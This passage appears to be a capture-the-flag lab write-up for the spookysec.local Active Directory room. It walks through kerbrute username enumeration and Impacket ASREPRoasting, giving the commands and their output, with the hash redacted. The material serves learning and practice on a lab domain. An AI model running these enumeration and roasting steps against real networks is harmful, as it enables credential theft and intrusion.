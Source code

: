 Run:
```
┌──(kali㉿kali)-[~/Desktop/tools]
└─$ ./kerbrute userenum --dc spookysec.local -d spookysec.local /tmp/userlist.txt -t 128

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 05/21/21 - Ronnie Flathers @ropnop

2021/05/21 00:58:04 >  Using KDC(s):
2021/05/21 00:58:04 >   spookysec.local:88

2021/05/21 00:58:04 >  [+] VALID USERNAME:       james@spookysec.local
...
{truncated ;)}
...
2021/05/21 00:59:57 >  [+] VALID USERNAME:       ROBIN@spookysec.local
2021/05/21 01:00:38 >  Done! Tested 73317 usernames (16 valid) in 154.456 seconds
```

#### What command within Kerbrute will allow us to enumerate valid usernames?
check the `-h` flag if you are new to any tool.

#### What notable account is discovered? (These should jump out at you)
Admin accounts are always interesting. Let's call it `user1` in the rest of the writeup.

#### What is the other notable account is discovered? (These should jump out at you)
Second most delicious account names. Let's call it `item2` in the rest of the writeup.

## 5. Abusing Kerberos
> After the enumeration of user accounts is finished, we can attempt to abuse a feature within Kerberos with an attack method called ASREPRoasting. ASReproasting occurs when a user account has the privilege "Does not require Pre-Authentication" set. This means that the account does not need to provide valid identification before requesting a Kerberos Ticket on the specified user account.

> Impacket has a tool called "GetNPUsers.py" (located in impacket/examples/GetNPUsers.py) that will allow us to query ASReproastable accounts from the Key Distribution Center. The only thing that's necessary to query accounts is a valid set of usernames which we enumerated previously via Kerbrute.


``` 
┌──(kali㉿kali)-[~/Desktop/tools/impacket/examples]
└─$ python3 GetNPUsers.py spookysec.local/{user1} -no-pass             
Impacket v0.9.23.dev1+20210519.170900.2f5c2476 - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for {user1}
${hash type}${user1}@SPOOKYSEC.LOCAL:{salt}${here used to be the hash}
```
